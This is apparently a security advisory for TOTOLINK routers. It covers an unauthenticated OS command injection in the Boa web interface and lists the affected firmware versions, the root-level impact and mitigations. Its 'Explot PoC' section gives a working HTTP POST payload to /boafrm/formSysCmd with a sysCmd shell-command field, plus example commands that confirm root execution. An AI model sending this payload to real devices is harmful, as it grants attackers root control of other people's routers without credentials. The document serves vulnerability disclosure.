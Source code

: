 # TOTOLINK using Boa API vulnerabilities

## Overview
Some TOTOLINK products using Boa API function are vulnerable to OS Command Injection.
## Products Affected
- TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512
- TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002
- TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408
- TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523

## Description
- A OS command injection vulnerability was found within the web interface of the device([CWE-78](https://cwe.mitre.org/data/definitions/78.html)).
## Impact
- An attacker may inject arbitrary shell commands without credentials, and it be executed by the device with root privileges.
## Solution
- If the products is not supported, please stop using the products and switch to alternative products.
## Mitigation 
- Disable internet access. 

## Explot PoC
- Uses external server`{Listen IP}:{Listen Port}` to see invisible code execution response

**Payload**
```http!
POST /boafrm/formSysCmd HTTP/1.1
Host: {Target IP}:{Target Port}
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 1
Content-Type: application/x-www-form-urlencoded

sysCmd={shell_cmd}
```

**Check product version**
- shell cmd: `cat /etc/version`
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**Check gained root permission**
- shell cmd: `echo %USER`
![image](https://hackmd.io/_uploads/Syt0BhFFA.png)

## Affected products
**TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512**
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002**
![image](https://hackmd.io/_uploads/r1ZV1pYYA.png)

**TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408**
![image](https://hackmd.io/_uploads/BJe4w1aYY0.png)

**TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523**
![image](https://hackmd.io/_uploads/H1hqk6FtC.png)

## Reference
https://www.totolink.tw/products_view/N302RE
https://www.totolink.tw/products_view/N300RT
https://totolink.tw/support_view/A3002RU
https://totolink.tw/support_view/N150RT
